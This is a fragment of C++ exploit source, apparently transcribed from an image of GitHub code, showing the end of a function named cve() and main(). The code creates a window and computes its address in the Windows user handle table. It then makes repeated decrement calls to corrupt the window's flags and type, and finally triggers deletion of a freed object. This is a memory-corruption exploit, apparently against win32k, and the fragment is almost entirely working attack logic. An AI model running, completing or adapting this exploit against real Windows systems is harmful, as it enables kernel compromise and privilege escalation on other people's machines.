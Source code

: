        HINSTANCE hInst;
        PVOID FakeWin;

        hInst = init();

        // the window to destroy
        destroy = CreateWindowEx(WS_EX_LEFT, "Button", NULL, WS_TILEDWINDOW, 500, 500, 100, 100,
            NULL, NULL, hInst, NULL);
        std::cout << "Destroy Window : " << destroy << std::endl;
        std::cout << "Offset table : " << get_table_offset_from_handle((int) destroy) << std::endl;
        addrdecr = BEGIN_HTABLE + get_table_offset_from_handle((int) destroy) + 9;

        prepdecr(hInst);

        std::cout << "Begin the three decrement for the flag" << std::endl;

        changeaddrdecr(addrdecr);
        decr(hInst, addrdecr);
        // we set the addr each time
        changeaddrdecr(addrdecr);
        decr(hInst, addrdecr);

        changeaddrdecr(addrdecr);
        decr(hInst, addrdecr);

        std::cout << "Begin the decrement of the type" << std::endl;

        // we change the decrement for setting the type of the window
        addrdecr--;
        // not sure if it's really useful
        prepdecr(hInst);

        changeaddrdecr(addrdecr);
        decr(hInst, addrdecr);

        std::cout << "Last decrementation done" << std::endl;

        // here the window to decr as the good value we need just now to delete it
        // via the call to link window
        std::cout << "Before : Triger the deletion of the free type" << std::endl;

        callnull(hInst, addrdecr);

        std::cout << "End" << std::endl;
    }

    int main()
    {
        cve();
    }